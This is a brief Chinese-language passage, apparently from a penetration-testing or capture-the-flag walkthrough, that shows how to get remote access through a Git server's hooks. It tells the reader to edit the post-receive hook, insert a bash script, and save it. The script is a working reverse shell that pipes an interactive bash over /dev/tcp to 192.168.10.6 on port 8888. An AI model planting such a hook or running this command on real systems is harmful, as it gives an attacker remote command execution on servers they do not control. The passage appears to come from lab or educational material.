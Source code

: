 ![](./pic/47.jpg)

然后编辑对应的`post-receive`

![](./pic/48.jpg)

然后在这里编写`bash`反弹shell

```shell
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/192.168.10.6/8888 <&1'
```

编辑好，点击`update`即可
